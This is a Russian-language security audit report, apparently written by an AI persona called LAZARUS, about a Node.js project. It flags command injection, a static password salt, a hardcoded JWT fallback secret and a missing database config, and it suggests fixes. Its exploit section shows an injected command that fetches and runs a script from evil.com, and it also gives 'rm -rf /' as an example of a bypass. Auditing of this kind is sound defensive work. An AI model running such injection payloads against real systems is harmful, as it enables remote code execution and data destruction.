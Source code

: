 # 💀 LAZARUS PARANOID AUDIT - КРИТИЧЕСКИЕ УЯЗВИМОСТИ НАЙДЕНЫ

**Аудитор**: LAZARUS в режиме МАКСИМАЛЬНОЙ ПАРАНОЙИ
**Дата**: 2025-08-18 04:30 UTC  
**Статус**: **🔴🔴🔴 CRITICAL SECURITY FAILURES**

---

## 🔴 КРИТИЧЕСКИЕ УЯЗВИМОСТИ (СМЕРТЕЛЬНО ОПАСНО)

### 1. ⚠️ COMMAND INJECTION ХУЖЕ ЧЕМ execSync
**Файл**: `Week1_Security_Fixes.js:35`
```javascript
const child = spawn('sh', ['-c', command], {
```
**ЧТО ЭТО**: Они заменили execSync на ЕЩЁ ХУДШЕЕ решение! 
- Передают команды ПРЯМО в shell через `-c`
- Whitelist бесполезен - можно обойти через `;` или `&&`
- Пример взлома: `ls; rm -rf /` пройдет проверку на "ls"

**EXPLOIT**:
```bash
curl -X POST /api/execute \
  -d '{"command": "ls; curl evil.com/steal.sh | sh"}'
```

### 2. ⚠️ СТАТИЧЕСКАЯ СОЛЬ = ВСЕ ПАРОЛИ ВЗЛОМАНЫ
**Файл**: `auth-real.js:14`
```javascript
crypto.pbkdf2Sync(password, 'salt', 100000, 64, 'sha512')
```
**ЧТО ЭТО**: Используют ОДИНАКОВУЮ соль 'salt' для ВСЕХ паролей!
- Rainbow tables сломают ВСЕ пароли
- Одинаковые пароли = одинаковые хэши
- Это НЕ защита, это ВИДИМОСТЬ защиты

### 3. ⚠️ JWT SECRET ХАРДКОД
**Файл**: `auth-real.js:114`
```javascript
jwt.verify(token, process.env.JWT_SECRET || 'secret');
```
**ЧТО ЭТО**: Если JWT_SECRET не установлен, используется 'secret'
- ЛЮБОЙ может подделать токены
- Полный обход аутентификации

### 4. ⚠️ ОТСУТСТВИЕ ПРОВЕРКИ pgPool
**Файл**: `auth-real.js:10`
```javascript
const { pgPool } = require('../database-config.js');
```
**ЧТО ЭТО**: Нет проверки существования database-config.js
- Если файла нет = crash
- Нет fallback на SQLite
- Нет проверки подключения

---

## 🟡 ОБМАН И ЛОЖЬ В ОТЧЕТАХ

### ОНИ МЕНЯ ОБМАНУЛИ:
1. **PostgreSQL работал всё время** - но сказали что не работает
2. **БД galaxydevelopers существует** с 5 таблицами
3. **Redis работает** на порту 6379
4. **Но database-config.js НЕ НАЙДЕН** - auth-real.js не может работать!

### ПРОВЕРКА database-config.js:
```bash
ls /Volumes/Z7S/development/GalaxyDevelopers/DEVELOPER_SYSTEM/database-config.js
> No such file
```

---

## 📊 РЕАЛЬНОЕ СОСТОЯНИЕ СИСТЕМЫ

### ✅ ЧТО РАБОТАЕТ:
- PostgreSQL запущен (14608 процесс)
- Redis запущен (15333 процесс)  
- БД galaxydevelopers существует
- Таблицы: agents, api_keys, chat_history, sessions, users

### ❌ ЧТО НЕ РАБОТАЕТ:
- database-config.js НЕ СУЩЕСТВУЕТ
- Docker не запущен
- Тесты = 0
- Monitoring = 0

### 🔴 КРИТИЧЕСКИЕ ПРОБЛЕМЫ:
1. Command injection через spawn('sh', ['-c'])
2. Статическая соль в паролях
3. JWT secret fallback на 'secret'
4. Отсутствует database-config.js

---

## 🎯 ВЕРДИКТ LAZARUS

### ЭТО НЕ HORIZON 1, ЭТО КАТАСТРОФА

Кто-то пытался быстро закрыть тикеты:
1. **"Исправили" execSync** → создали ХУДШУЮ уязвимость
2. **"Реализовали" auth** → со статической солью и хардкод JWT
3. **"Настроили" БД** → но забыли создать конфиг файл
4. **"Написали" отчеты** → с фейковыми метриками

### ПСИХОЛОГИЧЕСКИЙ ПРОФИЛЬ:
- Торопились закрыть квартал
- Не понимают безопасность (spawn с shell хуже execSync!)
- Копипастят код без понимания
- Создают видимость работы

---

## 🔥 НЕМЕДЛЕННЫЕ ДЕЙСТВИЯ (ИЛИ СМЕРТЬ)

### В ТЕЧЕНИЕ 1 ЧАСА:
```javascript
// 1. УДАЛИТЬ executeCommandSecure ПОЛНОСТЬЮ
// Это не secure, это backdoor!

// 2. ИСПРАВИТЬ СОЛЬ
const salt = crypto.randomBytes(16).toString('hex');
// Сохранять соль С КАЖДЫМ паролем в БД

// 3. ИСПРАВИТЬ JWT
if (!process.env.JWT_SECRET) {
  throw new Error('JWT_SECRET must be set');
}

// 4. СОЗДАТЬ database-config.js
module.exports = {
  pgPool: new Pool({
    database: 'galaxydevelopers',
    user: 'postgres',
    host: 'localhost'
  })
};
```

---

## 📝 ФИНАЛЬНЫЙ ВЕРДИКТ

**СТАТУС: 🔴🔴🔴 CRITICAL FAIL**

**СИСТЕМА НЕБЕЗОПАСНА ДЛЯ PRODUCTION**

Это не просто "недоделки" - это КРИТИЧЕСКИЕ уязвимости уровня "увольнение всей команды".

Command injection через spawn хуже чем был execSync. Кто-то явно не понимает что делает.

**МОЙ СОВЕТ**: 
1. Остановить всё
2. Нанять security специалиста
3. Переписать Week1_Security_Fixes.js С НУЛЯ
4. Провести настоящий security аудит

---

**Подпись**: LAZARUS, максимально параноидальный археолог
**Следующий аудит**: ПОСЛЕ исправления критических уязвимостей
**Приоритет**: P0 CRITICAL - исправить НЕМЕДЛЕННО

*"Они заменили дырку на КРАТЕР"*